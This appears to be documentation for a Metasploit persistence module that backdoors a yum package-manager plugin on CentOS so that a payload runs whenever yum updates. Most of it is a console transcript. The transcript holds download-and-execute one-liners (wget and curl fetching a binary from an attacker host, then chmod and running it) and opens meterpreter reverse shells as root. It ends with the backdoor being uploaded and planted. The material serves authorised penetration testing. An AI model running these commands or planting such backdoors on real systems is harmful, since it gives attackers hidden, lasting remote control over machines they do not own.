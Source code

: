 ## Description

This module will run a payload when the package manager is used.
This module modifies a yum plugin to launch a binary of choice.
`grep -F 'enabled=1' /etc/yum/pluginconf.d/`
will show what plugins are currently enabled on the system.

root persmissions are likely required.

Verified on Centos 7.1

## Verification Steps

1. Exploit a box that uses Yum
2. `use exploit/linux/persistence/yum_package_manager`
3. `set SESSION <id>`
4. `set PAYLOAD cmd/unix/reverse_python` configure the payload as needed
5. `exploit`

When the system runs yum update the payload will launch.  You must set handler accordingly.

## Options

### BACKDOOR_NAME

Name of backdoor executable

### PLUGIN

Name of the yum plugin to target
  
### PluginPath

Plugin path to use default is (`/usr/lib/yum-plugins/`)

## Scenarios

### Tested on Centos 7.1

Initial access vector via web delivery

```
resource (/root/.msf4/msfconsole.rc)> setg verbose true
verbose => true
resource (/root/.msf4/msfconsole.rc)> setg lhost 111.111.1.111
lhost => 111.111.1.111
resource (/root/.msf4/msfconsole.rc)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set srvport 8181
srvport => 8181
resource (/root/.msf4/msfconsole.rc)> set target 7
target => 7
resource (/root/.msf4/msfconsole.rc)> set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set lport 4545
lport => 4545
resource (/root/.msf4/msfconsole.rc)> set URIPATH l
URIPATH => l
resource (/root/.msf4/msfconsole.rc)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Starting persistent handler(s)...
[*] Started reverse TCP handler on 111.111.1.111:4545 
[*] Using URL: http://111.111.1.111:8181/l
[*] Server started.
[*] Run the following command on the target machine:
wget -qO KOiqZchh --no-check-certificate http://111.111.1.111:8181/l; chmod +x KOiqZchh; ./KOiqZchh& disown
[msf](Jobs:1 Agents:0) exploit(multi/script/web_delivery) > 
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 192.168.2.100
[*] Meterpreter session 1 opened (111.111.1.111:4545 -> 192.168.2.100:34470) at 2025-02-16 11:30:09 -0500

[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > use exploit/linux/persistence/yum_package_manager 
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
[msf](Jobs:2 Agents:2) exploit(linux/persistence/yum_package_manager) > sessions -i 1
[*] Starting interaction with 1...

(Meterpreter 1)(/home/centos) > getuid
Server username: root
(Meterpreter 1)(/home/centos) > sysinfo
Computer     : centos71.localdomain
OS           : CentOS 7.9.2009 (Linux 3.10.0-1160.53.1.el7.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
(Meterpreter 1)(/home/centos) > background
[*] Backgrounding session 1...
```

Persistence

```
[msf](Jobs:1 Agents:1) exploit(linux/persistence/yum_package_manager) > set session 1
session => 1
[msf](Jobs:1 Agents:1) exploit(linux/persistence/yum_package_manager) > exploit
[*] Command to run on remote host: curl -so ./lgtOaZox http://111.111.1.111:8080/Hg3DGEu9GqlWD06kh4AzFg;chmod +x ./lgtOaZox;./lgtOaZox&
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[msf](Jobs:2 Agents:1) exploit(linux/persistence/yum_package_manager) > 
[*] Fetch handler listening on 111.111.1.111:8080
[*] HTTP server started
[*] Adding resource /Hg3DGEu9GqlWD06kh4AzFg
[*] Started reverse TCP handler on 111.111.1.111:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.222
[+] Plugins are enabled!
[*] Meterpreter session 2 opened (111.111.1.111:4444 -> 222.222.2.222:53880) at 2025-02-16 11:30:59 -0500
[!] The service is running, but could not be validated. yum installed and plugin found, enabled, and backdoorable
[*] Attempting to modify plugin
[*] Backdoor uploaded to /tmp/7EtplboZD
[+] Backdoor will run on next Yum update
[*] Meterpreter-compatible Cleaup RC file: /root/.msf4/logs/persistence/centos71.localdomain_20250216.3101/centos71.localdomain_20250216.3101.rc
```

